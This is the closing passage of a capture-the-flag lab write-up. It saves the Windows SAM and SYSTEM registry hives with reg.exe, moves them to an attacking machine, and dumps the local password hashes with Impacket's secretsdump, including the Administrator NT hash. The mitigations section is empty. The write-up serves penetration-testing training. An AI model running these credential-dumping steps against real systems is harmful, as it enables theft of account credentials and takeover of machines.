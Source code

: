 ```
reg.exe save HKLM\SAM sam.bak
```

* SYSTEM hive for the boot key.

```
reg.exe save HKLM\SYSTEM system.bak
```

* Transfer the files to your attacking VM, I used [Impacket](https://github.com/SecureAuthCorp/impacket) and a SMB server.

* I also used Impacket to dump the hashes with secretsdump.py.

```
python3 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.9.23.dev1+20210302.130123.df00d15c - Copyright 2020 SecureAuth Corporation

[*] Target system bootkey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a05c3c807ceeb48c472568da284cd2:::
```

**1) What is the Administrator NT hash for this target?**

Secretsdump gave us this, let's go back and clean up our artifacts we left behind.

### Congratulations! You're done with the room!

## Mitigations (coming soon)

### Initial Access

### Privilege Escalation

Feel free to reach out to me on [Twitter](https://twitter.com/R_G_9_n) if you have any questions.
